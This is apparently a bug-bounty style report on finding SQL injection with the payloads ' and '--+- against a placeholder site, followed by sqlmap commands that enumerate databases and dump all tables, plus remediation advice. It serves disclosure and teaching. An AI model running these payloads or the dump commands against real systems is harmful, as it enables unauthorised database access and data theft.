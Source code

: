 # 🐞 SQL Injection Detection & Exploitation Report

---

## 📌 Title

**Step-by-Step SQL Injection Discovery and Exploitation Using `'` and `'--+-`**

---

## 📝 Description

This SQL Injection vulnerability was discovered by using **incremental payloads**:

1. First injected a single quote `'` to break the SQL syntax.
2. Then used `'--+-` to comment out the remaining SQL and confirm control over the query.
3. After confirmation, `sqlmap` was used to enumerate and dump the database.

---

## 🧪 Step 1: Initial Detection with `'`

### 🔗 Test Request

```http
GET /product?id=1' HTTP/1.1
Host: vulnerable-website.com
```

### 🧪 Expected Behavior

- HTTP 500 Internal Server Error  
- SQL syntax error in the response like:

```html
SQL error near '1''
```

✅ **This suggests the input is being evaluated as part of an SQL query.**

---

## 🧪 Step 2: Confirm with `'--+-`

### 🔗 Follow-up Test Request

```http
GET /product?id=1'--+- HTTP/1.1
Host: vulnerable-website.com
```

### 🧪 Expected Behavior

- Page loads normally or skips certain logic
- No error shown (query successfully terminated and commented)
- Confirms injection and ability to modify query logic

✅ **This confirms a working SQL injection point.**

---

## 🧰 Step 3: Exploitation Using sqlmap

### 🔧 Basic sqlmap Command

```bash
sqlmap -u "https://vulnerable-website.com/product?id=1" --batch
```

### 🔧 Full Level + Risk (for aggressive testing)

```bash
sqlmap -u "https://vulnerable-website.com/product?id=1" --risk=3 --level=5 --batch --dbs
```

### 🔄 Dump All Tables

```bash
sqlmap -u "https://vulnerable-website.com/product?id=1" --risk=3 --level=5 --batch --dump-all
```

---

## ⚙️ Affected Component

- SQL query not using prepared statements
- Input not sanitized or validated
- Unsafely constructed queries using user-controlled input

---

## 🛡️ Recommended Remediation

- Use parameterized queries or ORM
- Validate and sanitize all user inputs
- Disable verbose SQL errors in production
- Apply principle of least privilege to DB accounts

---

## 🧾 References

- [OWASP SQLi](https://owasp.org/www-community/attacks/SQL_Injection)
- [sqlmap](https://github.com/sqlmapproject/sqlmap)

---

## 📅 Report Date

**2025-06-17**

---

## 🧑‍💻 Reported By

- **Security Researcher**: raghav  
- **Tools Used**: Manual Payloads (`'`, `'--+-`), sqlmap  
- **Severity**: Critical
